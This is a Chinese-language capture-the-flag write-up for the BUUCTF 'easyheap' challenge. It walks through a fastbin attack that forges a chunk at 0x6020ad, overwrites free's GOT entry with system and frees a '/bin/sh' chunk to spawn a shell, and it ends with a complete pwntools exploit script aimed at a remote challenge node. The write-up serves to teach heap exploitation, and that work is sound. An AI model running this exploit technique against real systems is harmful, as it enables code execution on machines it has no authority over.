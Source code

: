 ### Fastbin Attack（伪造堆块劫持 GOT 表）

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67c2c9bad0e0a243d408fc63.png)

先 checksec

![](https://pic1.imgdb.cn/item/67c2c9d2d0e0a243d408fcba.png)

一个堆菜单

![](https://pic1.imgdb.cn/item/67c2c9f9d0e0a243d408fd43.png)

提供了后门函数

![](https://pic1.imgdb.cn/item/67c2caa9d0e0a243d408fee3.png)

漏洞函数位于创建函数中

这边 size 的大小由我们输入控制

heaparray 数组在 bss 段上存放着我们 chunk 的指针

![](https://pic1.imgdb.cn/item/67c2d063d0e0a243d409099b.png)

edit 简单的根据指针修改对应 chunk 里的值，但是这里的 size 也是由我们手动输入的

也就是说只要我们这边输入的 size 比 add 的时候输入的 size 大就会造成溢出

![](https://pic1.imgdb.cn/item/67c2d0f9d0e0a243d40909d6.png)

先申请几个堆块

```python
add(0x60,"happy")
add(0x60,"happy")
add(0x60,"happy")

gdb.attach(io)
```

![](https://pic1.imgdb.cn/item/67c2ea07d0e0a243d4092124.png)

现在释放第三个堆块让其进入 fastbin

```python
delete(2)

gdb.attach(io)
```

![](https://pic1.imgdb.cn/item/67c2ea80d0e0a243d409213f.png)



修改 heap1 内容为 '/bin/sh\x00'（11 字节），再填充 60 字节垃圾数据

堆溢出 heap2(freed) 修改其 fd 指针

因为最后释放的是 heap1,利用 '__free_hook'(system) Getshell

为什么是 0x6020ad

FakeChunk 若以这里为 prev_size，则 size 正好是一个 0x7f

可以绕过 malloc_chunk 的合法性验证 (new_chunk 的 size 位要与 bin 链表 size 一致)

 这样就伪造出了一个 chunk

```python 
payload = b'/bin/sh\x00' + b'A' * 0x60 + p64(0x71) + p64(0x6020ad)

edit(1,len(payload),payload)

gdb.attach(io)
```

![](https://pic1.imgdb.cn/item/67c2eba1d0e0a243d4092161.png)

![](https://pic1.imgdb.cn/item/67c32cb7d0e0a243d40945fd.png)

重新分配 chunk 2，由于 fastbin 的 fd 指针被修改，新的 chunk 2 会从 `0x6020ad` 处分配

再次分配 chunk 3，此时 chunk 3 的地址会被写入 `heaparray[0]`

修改 heaparray[0] 的值为 free_got

```python
add(0x60,"happy")
add(0x60,"happy")

payload2 = b'A' * 0x23 + p64(elf.got["free"])

edit(3,len(payload2),payload2)

gdb.attach(io)
```

![](https://pic1.imgdb.cn/item/67c32e3dd0e0a243d40946d1.png)

![](https://pic1.imgdb.cn/item/67c32e69d0e0a243d40946f1.png)

修改 free_got 为 system_plt

```python
payload3 = p64(elf.plt["system"])

edit(0,len(payload3),payload3)

gdb.attach(io)
```

![](https://pic1.imgdb.cn/item/67c32ebdd0e0a243d4094728.png)

释放 chunk 1，由于 `free_got` 已经被修改为 `system` 函数的地址，实际执行的是 `system('/bin/sh')`，从而获取 shell

```python
delete(1)

gdb.attach(io)

io.interactive()
```

![](https://pic1.imgdb.cn/item/67c32ed3d0e0a243d409472f.png)

完整 payload

```python
from pwn import *

#io=process("easyheap")
io = remote("node4.buuoj.cn",26646)
elf = ELF("easyheap")

def add(size,content):
    io.recvuntil("choice :")
    io.sendline("1")
    io.recvuntil("Size of Heap : ")
    io.sendline(str(size))
    io.recvuntil("Content of heap:")
    io.send(content)


def edit(index,size,content):
    io.recvuntil("choice :")
    io.sendline("2")
    io.recvuntil("Index :")
    io.sendline(str(index))
    io.recvuntil("Size of Heap : ")
    io.sendline(str(size))
    io.recvuntil("Content of heap : ")
    io.send(content)


def delete(index):
    io.recvuntil("choice :")
    io.sendline("3")
    io.recvuntil("Index :")
    io.sendline(str(index))


add(0x60,"happy")
add(0x60,"happy")
add(0x60,"happy")

delete(2)

payload = b'/bin/sh\x00' + b'A' * 0x60 + p64(0x71) + p64(0x6020ad)

edit(1,len(payload),payload)

add(0x60,"happy")
add(0x60,"happy")

payload2 = b'A' * 0x23 + p64(elf.got["free"])

edit(3,len(payload2),payload2)

payload3 = p64(elf.plt["system"])

edit(0,len(payload3),payload3)

delete(1)

io.interactive()
```

